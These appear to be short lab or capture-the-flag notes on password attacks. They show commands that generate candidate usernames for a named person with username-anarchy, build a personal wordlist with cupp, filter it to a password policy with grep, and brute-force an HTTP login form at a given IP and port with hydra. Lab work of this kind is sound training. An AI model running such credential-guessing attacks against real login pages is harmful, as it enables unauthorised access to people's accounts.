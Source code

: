 ___

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

```bash
cupp -i
```

Filter that password list to match that policy,
```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```


```bash
hydra -L username-anarchy/jane_smith_usernames.txt -P jane-filtered.txt 94.237.56.137 -s 33347 -f  
http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

![[Pasted image 20241004150612.png]]

